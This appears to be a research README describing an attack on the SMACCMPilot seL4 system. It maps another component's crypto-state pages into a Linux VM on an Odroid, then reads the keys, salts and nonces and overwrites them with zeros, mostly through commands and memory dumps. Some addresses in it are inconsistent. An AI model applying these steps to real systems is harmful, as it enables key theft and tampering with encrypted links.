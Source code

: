 These notes describe how the attack is constructed


Modifying the VM
================

The goal is to overwrite the nonce and salt for the encryption and
decryption functions. We accomplish this by mapping the relevant pages
of memory into the memory space of the VM. First we modify the VM to
tell it that we are inserting two extra pages to be loaded at a
specific memory address (we picked `0x8000000` somewhat arbitrarily).
To tell the VM this, we modify the file
`apps/smaccmpilot/components/camera_vm/camera_vm.camkes`. Find the two
lines at the bottom that look like this:

```
vm.num_extra_frame_caps = 0;
vm.extra_frame_map_address = 0;
```

and change them to

```
vm.num_extra_frame_caps = 2;
vm.extra_frame_map_address = 0x80000000;
```

Then recompile the Ordoid image.


Modifying the capDL file
========================

First we need to locate the memory where encryption information is
stored. The relevant data is in `build/arm/exynos5/smaccmpilot` in the
binaries:

  - `commsecDecodeState_inst_group_bin`
  - `commsecEncodeState_inst_group_bin`

We start by looking at the memory for the decoder:
```
arm-none-eabi-objdump -Dlx commsecDecodeState_inst_group_bin
```

The crypto information is stored in the C variable
`ctx_dl_2_global_gec_sym_key_dec` which we can locate in the symbol
table from objdump:

```
0022fa58 l     O .bss   00001128 ctx_dl_2_global_gec_sym_key_dec
```

This means the variable will be at the virtual memory address
`0x0022fa58`. That means it's at offset `0xa58` in page `0x22f`. But,
this variable points to a rather large structure and it turns out the
information we want will actually spill on to the next page. So we
want to map page `0x230` into the VM memory space.

To do this we modify the `smaccmpilot.cdl` file located in the same
directory as the binaries. Here we find the page table for
`commsecDecodeState_inst_group_bin`:

```
pd_commsecDecodeState_inst_group_bin {
0x0: pt_commsecDecodeState_inst_group_bin_0
0x1: pt_commsecDecodeState_inst_group_bin_1
}
```

Each page table represents 2mb so the page table at 0x1 has entries
for addresses in the 0x2000000 - 0x4000000 range which covers the
address we are interested in (0x2300000). In particular, we want to
find the frame mapped at `0x30` in that page table:

```
pt_commsecDecodeState_inst_group_bin_1 {
...
0x30: frame_commsecDecodeState_inst_group_bin_192 (RWX)
...
}
```

First we need to mark this page as uncached since the Linux VM treats
it as uncached. We do this by adding the `uncached` attribute:

```
pt_commsecDecodeState_inst_group_bin_1 {
...
0x30: frame_commsecDecodeState_inst_group_bin_192 (RWX, uncached)
...
}
```

Then, we need to insert this frame into the cnode for the vm. We need
to leave one empty cnode and then place it in the next available slot:

```
cnode_vm {
...
0x133: vm_irq_109
0x134: vm_irq_103
0x136: frame_commsecDecodeState_inst_group_bin_192 (RWX)
```

We now repeat this process for commsecEncodeState_inst_group_bin:

```
arm-none-eabi-objdump -Dlx commsecEncodeState_inst_group_bin
```

The relevant variable is `ctx_dl_global_gec_sym_key_enc` which we can
find in the symbol table:

```
0022ea58 l     O .bss   00001128 ctx_dl_global_gec_sym_key_enc
```

The virtual memory address is `0x22ea58` which is page `0x22e` with
offset `0xa58`. Again the information we actually want will spill onto
the next page at `0x22f`. Looking at the page table:

```
pd_commsecEncodeState_inst_group_bin {
0x0: pt_commsecEncodeState_inst_group_bin_0
0x1: pt_commsecEncodeState_inst_group_bin_1
}
```

We see that we want offset `0x2f` in `pt_commsecEncodeState_inst_group_bin_1` which is:

```
pt_commsecEncodeState_inst_group_bin_1 {
...
0x2f: frame_commsecEncodeState_inst_group_bin_217 (RWX)
...
}
```

First we mark this as `uncached`:

```
pt_commsecEncodeState_inst_group_bin_1 {
...
0x2f: frame_commsecEncodeState_inst_group_bin_217 (RWX, uncached)
...
}
```

We then add this to the VM's cnode:

```
cnode_vm {
...
0x133: vm_irq_109
0x134: vm_irq_103
0x136: frame_commsecDecodeState_inst_group_bin_192 (RWX)
0x137: frame_commsecEncodeState_inst_group_bin_217 (RWX)
```

Now we want to recompile with this new cdl file. To force the build
tool to use it, we need to remove the existing C file that is
generated from this cdl file:

```
rm build/arm/exynos5/capdl-loader-experimental/src/capdl_spec.c
```

Now build the Odroid image again and ensure that our modifications to
the cdl file have not been overwritten by the build tool. If they
have, then make them again, delete the `capdl_spec.c` file, and try
again.


Finding the key, salt, and nonce in the VM
==========================================

Now we can boot the Odroid and try to locate the key, salt, and nonce
for both the encoder and decoder. Within the VM, the pages we mapped
in are available at the memory range 0x80000000 - 0x8002000. Ihor has
provided the rw_mem.c tool in this repository which we can use to read
and modify memory.

First we can locate the keys since we know exactly what they are. To
read the memory we mapped in, do:

```
make read
```

And searching for the keys finds

```
0x80000aa0: 0xfe 0x45 0x2e 0x54 0x20 0xbf 0xb4 0x21 0x18 0x17 0x16 0x15 0x14 0x13 0x12 0x11 
0x80000ab0: 0x10 0x0f 0x0e 0x0d 0x0c 0x0b 0x0a 0x09 0x32 0x70 0x17 0xeb 0x26 0x63 0x05 0xfa
...
0x80001aa0: 0x59 0x71 0x2b 0xaf 0xcf 0xf2 0xab 0x24 0x01 0x02 0x03 0x04 0x05 0x06 0x07 0x08 
0x80001ab0: 0x09 0x0a 0x0b 0x0c 0x0d 0x0e 0x0f 0x10 0xab 0x74 0xc9 0xd3 0xae 0x72 0xce 0xdb
```

Thus the keys are at 0x80000aa8 and 0x80001aa8. A make target is
available to read these keys:

```
root@odroid-jessie:~/hack# make read-keys
./rw_mem -a 0x80000aa8 -s 16
0x80000aa8: 0x18 0x17 0x16 0x15 0x14 0x13 0x12 0x11 0x10 0x0f 0x0e 0x0d 0x0c 0x0b 0x0a 0x09 
./rw_mem -a 0x80001aa8 -s 16
0x80001aa8: 0x01 0x02 0x03 0x04 0x05 0x06 0x07 0x08 0x09 0x0a 0x0b 0x0c 0x0d 0x0e 0x0f 0x10
```

We can also find the salts by searching for them directly:

```
0x80000b60: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x08 0x07 0x06 0x05
0x80000b70: 0x04 0x03 0x02 0x01 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
...
0x80001b60: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x11 0x12 0x13 0x14
0x80001b70: 0x15 0x16 0x17 0x18 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
```

Thus the salts are at 0x80000b6c and 0x80001b6c. A make target is
available to read these salts:

```
root@odroid-jessie:~/hack# make read-salts
./rw_mem -a 0x80000b6c -s 8
0x80000b6c: 0x08 0x07 0x06 0x05 0x04 0x03 0x02 0x01 
./rw_mem -a 0x80001b6c -s 8
0x80001b6c: 0x11 0x12 0x13 0x14 0x15 0x16 0x17 0x18 
```

Finding the nonces is tricker because they are initially all zero so
we can't just search for them. Instead we save the results of `make
read` over several requests to the odroid and diff the resulting files
to find the nonce. After doing 283 requests we can find the nonces here:


```
0x80000b70: 0x04 0x03 0x02 0x01 0x00 0x00 0x00 0x00 0x00 0x1b 0x01 0x00 0x00 0x00 0x00 0x00
0x80000b80: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
...
0x80001b70: 0x15 0x16 0x17 0x18 0x00 0x00 0x00 0x00 0x1b 0x01 0x00 0x00 0x00 0x00 0x00 0x00
0x80001b80: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
```

The nonce is a uint64 stored in little endian format. The nonces are
at 0x80000b79 and 0x80001b78. A make target is available to read these
nonces:

```
root@odroid-jessie:~/hack# make read-nonces 
./rw_mem -a 0x80000b79 -s 8
0x80000b79: 0x1b 0x01 0x00 0x00 0x00 0x00 0x00 0x00 
./rw_mem -a 0x80001b79 -s 8
0x80001b78: 0x1b 0x01 0x00 0x00 0x00 0x00 0x00 0x00
```

Now the attack simply overwrites the salts with the attacker's salts
(all zeros) and resets the nonces to zero so that the attacker can
syncronize with the Odroid. A make target is available to do these
overwrites:

```
root@odroid-jessie:~/hack# make hack
./rw_mem -a 0x80000b6c -s 8 -w -h 0x00
./rw_mem -a 0x80001b6c -s 8 -w -h 0x00
./rw_mem -a 0x80000b79 -s 8 -w -h 0x00
./rw_mem -a 0x80001b79 -s 8 -w -h 0x00
```

Due to caching this often doesn't actually work. The workaround is to
run `make clean hack`. The recompiling seems to resolve the cache
issues.
